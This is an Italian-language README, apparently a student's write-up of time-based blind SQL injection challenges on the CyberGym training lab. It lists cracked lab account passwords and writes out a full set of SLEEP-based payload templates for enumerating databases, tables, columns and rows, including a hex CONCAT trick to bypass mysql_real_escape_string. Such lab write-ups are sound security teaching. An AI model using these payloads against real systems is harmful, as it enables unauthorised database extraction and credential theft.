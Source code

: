 ## Time based blind SQLi

La challenge prevede la preparazione di uno script in linguaggio a piacere (ho scelto il python) per l'exploit della vulnerabilità
che permette SQLi di tipo Time-based blind su due pagine del progetto [CyberGym](https://github.com/AvalZ/cyber-gym) 
(nel mio caso installato su una macchina virtuale eseguita in locale).

Lo svolgimento della prima challenge si può trovare [qui](Time-Based_Blind.md)

Lo svolgimento della seconda [qui](Time-Based_Blind_escaped.md)

Lo script scritto per la loro risoluzione è il [blind_sqli.py](blind_sqli.py) (python 3) presente nel repository.

I dati di login recuperati dalla tabella accounts sono i seguenti:

email            : password(sha1)                           : password in chiaro
----------------------------------------------------------------------------------------------------------------------
arthur@guide.com : d00ee262cdcbe7543210bb85f6f1cac257b4e994 : Bathrobe
----------------------------------------------------------------------------------------------------------------------
ford@guide.com   : 30f5cc99c17426a0d28acf8905c6d776039ad022 : Betelgeuse
----------------------------------------------------------------------------------------------------------------------
tricia@guide.com : bcb3358e273b5772ee0ae1799b612e13cc726b04 : Trillian
----------------------------------------------------------------------------------------------------------------------
zaphod@guide.com : 0c38530eaca4dbc0f49c459c0c52b362f14215c3 : Pan-GalacticGargleBlaster

Le password in chiaro sono state ottenute attraverso lo script [Hash Buster v3.0](https://github.com/s0md3v/Hash-Buster)

Per entrambe le challenge è stato usato lo stesso numero di coppie di query, per le quali è stato modificato il "wrapping"
in modo generare il payload a seconda della tipologia di parametro che si andava a sfruttare:

1. recupero database:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_databases FROM information_schema.schemata)x WHERE x.n_databases = {} AND SLEEP(0.1)"
	- extraction: "SELECT * FROM(SELECT schema_name FROM information_schema.schemata LIMIT {},1)x WHERE MID(x.schema_name,{},1) = {} AND SLEEP(0.1)"
2. recupero nomi tabelle:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_tables FROM information_schema.tables WHERE table_schema = CONCAT(" + database_hex + "))x WHERE x.n_tables = {} AND SLEEP(0.1)"
	- extraction: "SELECT * FROM(SELECT table_name FROM information_schema.tables WHERE table_schema = CONCAT(" + database_hex + ") LIMIT {},1)x WHERE MID(x.table_name,{},1) = {} AND SLEEP(0.1)"
3. recupero nomi colonne e tipo dato nelle tabelle:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_columns FROM information_schema.columns WHERE table_schema = CONCAT(" + database_hex + ") AND table_name = CONCAT(" + table_hex + "))x WHERE x.n_columns = {} AND SLEEP(0.1)"
	- extraction: "SELECT * FROM(SELECT CONCAT(column_name,"+hex(ord(':'))+",column_type) AS column_info FROM information_schema.columns WHERE table_schema = CONCAT(" + database_hex + ") AND table_name = CONCAT(" + table_hex + ") LIMIT {},1)x WHERE MID(x.column_info,{},1) = {} AND SLEEP(0.1)"
4. recupero dati presenti nelle colonne passate in input:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_rows FROM  " + db + '.' + table + ")x WHERE n_rows = {} AND SLEEP(0.1)"
	- extracton: "SELECT * FROM(SELECT CONCAT(" + columns_concat + ") AS data FROM " + db + '.' + table + " LIMIT {},1)x WHERE MID(x.data,{},1) = {} AND SLEEP(0.1)"
	
dove:
	- database_hex: lista dei caratteri, separati da virgola, in codifica esadecimale da passare a concat per il bypass di 
					mysql_real_escape_string
	- table_hex: stessa cosa, ma per il nome della tabella passata in input
	
Infine, dall'analisi del jitter delle risposte ho notato che (nel mio ambiente locale, virtualizzato) questo era molto oscillante, ma comunque
si attestava sempre sotto i 0.1 secondi, portandomi a supporre questo valore come sufficiente per una corretta estrazione dei risultati cercati
per entrambe le challenge

Ho incluso nel repository due file .sh che ripercorrono che riepilogano tutti i passaggi necessari per l'estrazione.
